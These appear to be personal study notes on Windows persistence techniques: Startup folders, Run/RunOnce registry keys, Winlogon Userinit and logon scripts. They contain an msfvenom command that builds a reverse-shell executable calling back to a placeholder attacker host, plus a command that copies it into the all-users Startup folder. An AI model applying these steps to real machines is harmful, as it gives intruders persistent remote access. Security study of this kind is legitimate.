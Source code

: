 #windows #cybersecurity 

### Startup folder
Each user has a folder under
`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where we can put executables to run at startup

If we want that every user runs the payload at startup we have to use the folder
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

Let's generate a reverse shell payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

Copy the file in the folder

```powershell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Then sign out and login

### Run / RunOnce
We can use the following registry entry to specify application to run at logon
- `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
- `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

HKCU = current user
HKLM = everyone

![[mybackdoor.png]]


### Winlogon
Windows component that loads the user profile after authentication.

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`

- `Userinit` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell` points to the system's shell, which is usually `explorer.exe`.


![[Pasted image 20240722092253.png]]

We can modify the userinit entry with our reverse shell program.


### Logon Scripts
The `userninit.exe` load the user profile and checks for a variable called `UserInitMprLoginScript`

![[Pasted image 20240722093125.png]]

We can modify it to run a reverse shell on logon